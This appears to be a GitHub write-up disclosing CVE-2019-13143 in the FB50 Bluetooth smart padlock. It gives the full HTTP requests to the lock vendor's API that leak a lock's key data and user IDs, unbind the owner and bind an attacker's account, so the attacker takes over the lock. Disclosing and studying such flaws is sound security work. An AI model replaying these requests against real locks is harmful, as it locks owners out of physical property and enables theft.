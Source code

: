 # EXPOSING THE VULNURABILITES OF THE FB50 SMART LOCK

## CVE Number

CVE-2019-13143

## Details
* The FB50 smart lock
     * The FB50 smart lock is manufactured by Shenzhen Dragon Brother Technology Co. Ltd.
     * The look is sold under multiple brands on many ecommerse sites across the web.
     * It has an estimated 15k+ users.
* Product URLs
     * https://www.chinasmartlocks.com/en/product/fb50-smart-padlock.html
     * https://www.sz-mica.com/fb50.html

## How the lock works

* The FB50 pairs to a phone via Bluetooth, and requires the OKLOK app to function. The app requires the user to create an account before further functionality is available. It also facilitates configuring the fingerprint, and unlocking from a range via Bluetooth. 
    
    * Thus the 2 methods of unlocking it are:
        * By scanning the registered fingerprint.
        * By using the companion Android app when in it’s vicinity. 

## Our objective

Our objective in this project was to try to open or pick the lock and this could be done in 2 ways
* The BLE(Bluetooth Low Energy) method
* The Android app method.
Here, we have decided to focus on the Android app method.
      

## Using Burpsuite

* Before we start performing the exploit, we require the servises of Burpsuite.
* Burp Suite is an integrated platform for performing security testing of web applications that is usually used to pentest web applications by industry proffesionals
* It operates as a web proxy server, and sits as a man-in-the-middle between the browser and destination web servers. This allows the interception, inspection and modification of the raw traffic passing in both directions
* The free community version can be downloaded from [here](https://portswigger.net/burp/communitydownload)


## The exploit in brief

The entire exploit is a 3 step process consisting of authenticated HTTP requests sent via Burpsuite:
    1. Using the lock’s MAC (obtained via a simple Bluetooth scan in the vicinity), get the barcode,user ID and lock ID
    2. Using the lock ID and user ID, unbind the user from the lock
    3. Provide a new name, attacker’s user ID and the MAC to bind the attacker to the lock

## Performing the exploit

We start by connecting the Android device through our proxy made using Burpsuite.
As we turn the “Intercept” option on, all requests from the Android device are intercepted by Burpsuite.
We intercept the different requests being sent from the app which we will later modify.

### Step 1

* We proceed to use the “Repeater” feature of Burpsuite to send requests directly to the FB50 smart lock
* For example, we send the request 

      POST /oklock/lock/getDeviceInfo HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 56
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
    
 * To which we get the follwing response
                        
       HTTP/1.1 200 
       Server: nginx/1.13.3
       Date: Sat, 21 Sep 2019 05:29:38 GMT
       Content-Type: application/json
       Content-Length: 409
       Connection: close

       {"result":{"account":"<USER EMAILID>","alarm":0,"barcode":"<BARCODE>","chipType":"1","createAt":"   <DATE&TIME","deviceId":"","electricity":"91","firmwareVersion":"2.3","gsmVersion":"","id":<LOCKID>,"isLock":0,"lockKey":"40,1,61,18,20,24,18,8,52,57,36,96,91,1,87,20","lockPwd":"000000","mac":"<MAC ADDRESS>","name":"LOCK NAME","radioName":"BlueFPL","type":0,"userId":<USER ID>},"status":"2000"}









### Step 2

* And now that we have all necessary information, we shall proceed to unbind the lock from the victim’s device using the victim’s  USER ID.
      
      POST /oklock/lock/unbind HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 113
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"lockId":"<LOCK ID>","userId":"<USER ID>"}

### Step 3

* And now we proceed to bind it to the attacker’s device using the following command.

      POST /oklock/lock/bind HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android 
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 56
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"name":"<LOCK NAME>","userId":<ATTACKER USERID>,"mac":"<LOCK MACID>"}





## Conclusion

   * Thus, we have succesfully transfered control of the FB50 smart lock from the victiom’s app to the attacker’s app.
   * The severity of this issue lies in the fact that the original owner completely loses access to their lock. They can’t even “rebind” to get back, since the current owner (the attacker) needs to authorize that.  

## References

   * FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)
   * https://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure/
   * https://icyphox.sh/blog/fb50/
